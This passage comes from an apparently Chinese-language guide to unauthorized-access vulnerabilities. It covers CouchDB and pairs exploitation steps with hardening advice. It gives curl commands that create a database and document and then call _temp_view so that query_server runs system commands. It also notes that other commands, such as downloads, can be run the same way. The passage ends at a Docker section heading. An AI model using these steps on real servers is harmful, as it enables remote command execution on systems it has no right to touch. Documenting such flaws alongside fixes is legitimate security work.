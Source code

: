 `curl -X PUT 'http://x.x.x.x:5984/vultest'`  
![](../pictures/notauthority16.png)   

`curl -X PUT 'http://x.x.x.x:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}' `   
调用query_server处理数据  
![](../pictures/notauthority17.png)    


`curl -X POST 'http://x.x.x.x:5984/vultest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'`  
![](../pictures/notauthority18.png)   

当然你也可以直接执行其他命令，下载个其他什么的  

![](../pictures/notauthority19.png)   
![](../pictures/notauthority20.png)   

### 9.3 漏洞加固

1、指定CouchDB绑定的IP （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 文件中找到 “bind_address = 0.0.0.0” ，把 0.0.0.0 修改为 127.0.0.1 ，然后保存。注：修改后只有本机才能访问CouchDB。  

2、设置访问密码 （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 中找到“[admins]”字段配置密码  

## 0x010 Docker 未授权访问 

### 10.1 漏洞描述
